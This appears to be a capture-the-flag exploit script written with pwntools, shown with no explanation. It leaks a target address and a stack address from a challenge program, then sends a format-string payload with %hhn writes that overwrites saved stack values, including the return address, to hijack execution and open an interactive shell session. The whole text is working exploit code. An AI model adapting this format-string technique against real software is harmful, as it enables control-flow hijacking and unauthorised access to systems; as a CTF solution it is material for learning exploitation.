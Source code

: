 # target
p.sendafter("What's your name?",'a'*8)
p.recvuntil('a'*8)
target = u64(p.recv(6).ljust(8,'\0'))
log.success('target: 0x%x'%target)
# stack
p.sendlineafter('Do you want it?','Yes')
p.recvuntil('Here is your gift:')
leak = int(p.recvuntil('\n'),16)
log.success('leak: 0x%x'%leak)
# FS
payload = 'aaa%20$p%98c%21$hhn%100c%22$hhn'
payload = payload.ljust(0x40,'a')
#             target           rdi               rip
payload += p64(target) + p64(leak+0x27) + p64(leak-0x18)
p.sendlineafter('Now,to find your flag in the gift!\n',payload)

p.interactive()
